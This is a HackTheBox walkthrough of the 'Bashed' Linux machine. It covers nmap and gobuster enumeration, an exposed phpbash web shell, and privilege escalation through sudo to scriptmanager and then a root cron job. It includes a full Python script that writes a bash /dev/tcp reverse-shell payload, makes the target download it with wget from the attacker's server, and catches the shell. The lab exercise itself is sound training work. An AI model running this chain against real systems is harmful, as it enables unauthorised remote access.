

This box name is Bashed. it's a Linux Easy Box from HackTheBox. The first shell you get easily with a php shell in /dev folder. Then you escalate to the scriptmanager user, then to root with a cron running python scripts as root!

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.68
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


### Gobuster

Let's start crafting a little more on the box to see if we can enum more things do explore

```sh
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

We found a bunch of directories in it. Fine.


### /dev

We found a interesting page called /dev


And we found a way to execute commands in it

```
http://10.10.10.68/dev/phpbash.php
```


# Reverse Shell

So now, let's get a reverse shell on the box

We download a shell.sh file in it


And get the reverse now


Now let's easily automate it

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


auto_bashed.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Bashed - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
        
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Create the shell.sh file
def createPayload(lhost,lport):
    print("[+] Let's creat the shell.sh file !! [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("shell.sh", "w")
    f.write(payload)
    f.close()
    print("[+] File Created !!! [+]")

# Download the sh file to the server
def DownloadFile(rhost,lhost,lport):
    print("[+] Let's download the file to the server !! [+]")
    url = "http://%s:80/dev/phpbash.php" %rhost
    headers = {"Content-type": "application/x-www-form-urlencoded"}
    data = {"cmd": "cd /var/www/html/dev; /usr/bin/wget %s/shell.sh -O /tmp/shell.sh" %lhost}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] File Downloaded !! [+]")
    
# Get the reverse shell
def GetReverseShell(rhost):
    print("[+] Enjoy your shell !!!! [+]")
    os.system("rm shell.sh")
    url = "http://%s:80/dev/phpbash.php" %rhost
    headers = {"Content-type": "application/x-www-form-urlencoded"}
    data = {"cmd": "cd /var/www/html/dev; /bin/bash /tmp/shell.sh"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Bashed AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)
    
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the shell.sh file
    createPayload(lhost,lport)
    # Download the shell.sh to the server
    DownloadFile(rhost,lhost,lport)
    # Get the reverse
    GetReverseShell(rhost)

if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# www-data -> Scriptmanager

With `sudo -l` we see that we can execute commands as scriptmanager


So, we easly become this user

```sh
sudo -u scriptmanager /bin/bash
```


# Scriptmanager -> Root

Now we access the / and get a folder that only this user can acess


We both files, and one of them is owned by root


So possibly it's being executed as root

We create a file called exploit.py it this folder, with a python reverse shell in it


And wait the cron execute all the scripts in python in this folder to become root

